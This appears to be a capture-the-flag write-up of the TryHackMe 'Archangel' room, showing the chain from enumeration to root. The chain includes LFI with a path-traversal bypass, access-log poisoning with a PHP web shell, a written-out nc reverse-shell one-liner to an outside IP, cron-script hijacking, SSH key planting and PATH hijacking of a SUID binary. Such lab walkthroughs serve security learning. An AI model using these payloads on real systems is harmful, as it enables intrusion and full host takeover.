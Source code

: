 # Arch Angel (THM)

- https://tryhackme.com/room/archangel
- March 7, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.29 ((Ubuntu))

### HTTP

- directory brute forcing with ffuf

```
flags
images
layout
pages
```

- in question, Find a different hostname
- it is mafialive.thm

![](images/2023-03-07-18-51-14.png)

- in local machine, /etc/hosts file, add IP and hostname
- try to brute force, subdomains

```sh
 ffuf -u http://$IP -w /usr/share/wordlists/dnsnames.txt -H "Host: FUZZ.mafialive.thm" -c -t 128 -fw 2646
```

```
cscplatform
```

- oh, it is the same page
- forget to see the `http://mafialive.thm`

![](images/2023-03-07-19-05-45.png)

- brute force directories that url
- in robots.txt, found a test page

![](images/2023-03-07-19-08-17.png)

- clicking the button request to
  `http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php`

- it may be possible factor for LFI
- try to include this test.php page
- it shows nothing
- try with php filter base64 encode

```sh
curl http://mafialive.thm/test.php\?view\=php://filter/convert.base64-encode/resource\=/var/www/html/development_testing/test.php
```

- get base64 encoded version of test.php page

![](images/2023-03-07-19-20-42.png)

- from this, view parameter must contain `/var/www/html/development_testing` and must not contain `../../`
- so, I tried like this to include `/etc/passwd` file

```sh
curl http://mafialive.thm/test.php?view=/var/www/html/development_testing/./.././.././.././.././.././.././../etc/passwd
```

- I don't know how to get shell, hint said `Poison` and I think I have to do poison the access.log file which may contain in `/var/log/apache2/access.log`

![](images/2023-03-07-21-56-50.png)

- `access.log` file contain user-agent that we can inject

![](images/2023-03-07-21-57-49.png)

- inject `User-Agent` - `<?php system($_GET['cmd']); ?>`
- then request with cmd parameter that as we wish to perform code execution

![](images/2023-03-07-22-00-28.png)

## User Access

- to get user access,
  - listen at our local machine with nc
  - then get request with `cmd` parameter, that will bind to our shell
  - `cmd=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f`

![](images/2023-03-07-22-03-11.png)

- find all the system and found that at cron job

```sh
$ whoami
www-data
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

- `archangel` user run `/opt/helloworld.sh` at every minute
- the `helloworld.sh` file has read,write access to everyone
  `-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh`
- make another reverse shell, this time we will get `archangel` user
  - listen with nc (another port)
  - overwrite the `helloword.sh` file with code that will bind to our shell
  - wait for at most 1 minute to get reverse shell

![](images/2023-03-07-22-09-58.png)

- to get an easy and nice shell login with ssh, make a .ssh folder in home directory
- at local machine, create id_rsa pair with ssh-keygen and copy the content of id_rsa.pub file and save as authorized_keys inside `/home/archangel/.ssh/authorized_keys`
- then login with `id_rsa`, as `archangel` user

![](images/2023-03-07-22-14-29.png)

## Root Access

- find SUID bits

```sh
archangel@ubuntu:~$ find / -perm -4000 2> /dev/null
...
/home/archangel/secret/backup

```

- backup file `-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup` has suid bit of root user

```sh
archangel@ubuntu:~/secret$ ./backup
cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory
```

- it may call the `cp` command
- create `cp` file under `tmp` folder

```sh
archangel@ubuntu:~/secret$ cd /tmp
archangel@ubuntu:/tmp$ echo '/bin/bash -p' > cp
archangel@ubuntu:/tmp$ chmod 777 cp
archangel@ubuntu:/tmp$ ls -la | grep cp
-rwxrwxrwx  1 archangel archangel   13 Mar  7 21:18 cp
```

- checking the $PATH

```sh
archangel@ubuntu:~/secret$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- export the `/tmp` folder to be execute at first, then run the backup file

```sh
archangel@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- this means if `cp` is run, it will check according to `PATH` variables and `cp` under `/tmp` folder will be executed

```sh
archangel@ubuntu:~/secret$ ./backup
root@ubuntu:~/secret# whoami
root
root@ubuntu:~/secret# id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
```

---
